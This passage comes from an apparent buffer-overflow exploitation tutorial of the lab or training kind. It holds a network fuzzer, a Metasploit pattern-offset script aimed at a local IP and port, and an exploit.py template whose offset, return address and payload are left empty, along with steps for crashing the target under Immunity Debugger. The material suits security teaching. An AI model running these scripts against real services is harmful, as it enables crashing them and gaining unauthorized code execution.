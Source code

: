 ```python
        print("Fuzzing with %s bytes" % len(string))
        s.send("brainstorm " + string + "\r\n")
        s.recv(1024)
        s.send("message " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

> Manual-Guessing
```python
# Generate patterns wih '/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100'
# Place the value into the 'buffer' variable. Slowly increase pattern value until app crashes.
 
import socket,sys
 
address = "192.168.1.150"
port = 31337
buffer = "Aa0Aa1Aa2"
 
try:
    print "[+] Sending buffer"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.send(buffer + '\r\n')
except:
    print "[!] Unable to connect to the application."
    sys.exit(0)
finally:
    s.close()
```


Once the Python script has started it will crash the immunity debugger after a short amount of time. Make a note of the last bytes sent to Immunity.

Make a note of the last bytes sent of **2000**.

Create the following python file for exploiting the application.

> python exploit.py
```python
import socket

ip = "<IP>"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
```